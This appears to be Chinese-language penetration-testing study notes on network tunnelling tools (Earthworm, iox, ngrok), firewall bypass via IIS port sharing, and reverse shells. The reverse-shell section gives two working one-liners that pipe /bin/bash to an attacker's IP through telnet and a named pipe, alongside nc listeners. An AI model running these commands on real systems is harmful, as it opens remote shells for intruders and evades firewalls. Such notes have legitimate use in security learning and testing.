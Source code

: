 * * *

  

Earthworm(EW)

* * *

EW 是一套便携式的网络穿透工具，具有 SOCKS v5服务架设和端口转发两大核心功能，可在复杂网络环境下完成网络穿透。

iox

* * *

*   具有流量加密
    
*   友好的命令行参数
    
*   逻辑优化
    
*   UDP流量转发
    

*   https://github.com/EddieIvan01/iox
    

ngrok

* * *

各种系统都支持，支持内网穿透

利用IIS端口共享功能

* * *

……说实话，没来得及尝试，单看文档没看懂

利用IIS的端口共享功能绕过防火墙

  

反弹shell

NC/Telent

* * *

telnet 可以换成 nc  

方法一：

```
`攻击机nc监听：nc -lp 空闲端口``服务端（靶机）：mknod a p;telnet 攻击机IP 攻击机端口 0<a | /bin/bash 1>a`
```

成功后没有提示，尝试命令即可

```
mknod命令中，a表示这个管道的名，p表示这个管道为FIFO（先进先出）和mkfifo一样，就是后面mkfifo/tmp/backpipe1这种
```

方法二：

```
`攻击机：nc-lp 6666,nc-lp 5555，在监听的6666的nc上输入命令，在5555的nc上看返回的消息``靶机：telnet 攻击机 IP 6666| /bin/bash | telnet 攻击机 IP 5555`
```
